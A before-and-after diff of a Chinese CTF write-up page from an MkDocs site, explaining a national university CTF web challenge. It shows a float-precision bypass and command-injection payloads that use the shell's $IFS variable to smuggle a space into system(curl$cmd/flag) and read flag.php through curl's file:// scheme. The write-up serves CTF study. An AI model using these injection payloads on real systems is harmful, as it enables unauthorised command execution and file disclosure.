

Before and after one commit to wonderkun/CTF_web, an MkDocs documentation site: the page built from docs/web100/web100-1.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
little changes
一些修正，加了IFS说明

````diff
--- a/docs/web100/web100-1.md
+++ b/docs/web100/web100-1.md
@@ -3,25 +3,27 @@
 ---------------
 
 #### 此题是全国大学生CTF联赛的真题
-
+对于题目的前半段：num中不含1却值等于1：
 $num=0.9999999999999999999999999999999999999999999999  利用浮点数精度绕过
 
+解题关键主要看题目的后半段 system(curl$cmd/flag);
 
+读题可以知道$cmd不允许存在空格，要读取文件,必须要构造一个空格出来。
 
-住要看 system(curl$cmd/flag);
-
-$cmd不允许存在空格...
-要读取文件,必须要构造一个空格出来,
-
-利用Shell 脚本中有个变量叫IFS(Internal Field Seprator) ，内部域分隔符
-echo $IFS   | od -b
-
+利用Shell 脚本中有个变量叫IFS(Internal Field Seprator 内部域分隔符)
+```
+$IFS相关：
+可以使用命令“echo $IFS | od -b”查看一下IFS的内容：
+   $ echo "$IFS" | od -b
+   0000000 040 011 012 012
+   0000004
+其中"040"是" "，"011"是"\t"，"012"是"\n"，最后一个"012"是执行echo命令的时候加上的
+```
 最后
 ```
 $cmd=$IFS\file:///$PWD/flag.php
 ```
 或者
-
 ```
 $cmd=$IFS\file:///var/www/html/exam/flag.php$IFS\
 $cmd=$IFS"file:///$PWD/"
````
